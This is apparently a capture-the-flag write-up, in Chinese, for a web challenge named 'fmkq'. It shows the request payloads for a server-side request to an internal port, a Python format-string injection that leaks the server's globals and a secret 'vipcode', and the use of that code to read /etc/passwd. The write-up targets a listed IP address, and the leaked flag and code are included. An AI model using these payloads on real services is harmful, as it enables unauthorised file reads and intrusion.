 ` flag{409ed945-5b77-4ec3-97e1-b395778842ba} `



### fmkq


begin 那里搞个 %s% 就行了。

8080 出东西了

```
Welcome to our FMKQ api, you could use the help information below
To read file:
    /read/file=example&vipcode=example
    if you are not vip,let vipcode=0,and you can only read /tmp/{file}
Other functions only for the vip!!!
```
```
http://121.37.179.47:1101/?begin=%s%&head=\&url=http://127.0.0.1:8080/read/file=/tmp/flag%26vipcode=1
```

flag在 /未知目录/flag。至少能扫目录，或者直接 getshell

![image.png](https://i.loli.net/2020/03/08/qlPynLj3IOkZu9A.png)


在fuzz过程中有一下报错
```
Absolute URI not allowed if server is not a proxy.
Malformed Request-Line: bad protocol
Malformed Request-URI
```
去网上查了下可能是cherrypy

当输入{file}时,其对应的输出为:error,说明可能有ssti或者格式化字符串漏洞

利用格式化字符串读取vipcode,从而任意文件读取

```
{file.__class__.__init__.__globals__}
['lib', 'media', 'opt', 'var', 'usr', 'mnt', 'bin', 'root', 'home', 'tmp', 'boot', 'sys', 'run', 'sbin', 'srv', 'lib64', 'etc', 'dev', 'proc', 'app', '.dockerenv', 'fl4g_1s_h3re_u_wi11_rua']

{'truevipcode': '3Ad8fya45bYeUOFDkJuXpjV1tGHLxzonrCWlER2mPKS9i67w'}
'__file__': '/app/base/readfile.py'


```


```
/?head=\&url=http://127.0.0.1:8080/read/file=/etc/passwd%26vipcode=3Ad8fya45bYeUOFDkJuXpjV1tGHLxzonrCWlER2mPKS9i67w&begin=%s%
```

vip.py

```python

import random
import string


vipcode = ''


class vip:
    def __init__(self):
        global vipcode
        if vipcode == '':
            vipcode = ''.join(random.sample(string.ascii_letters+string.digits, 48))
```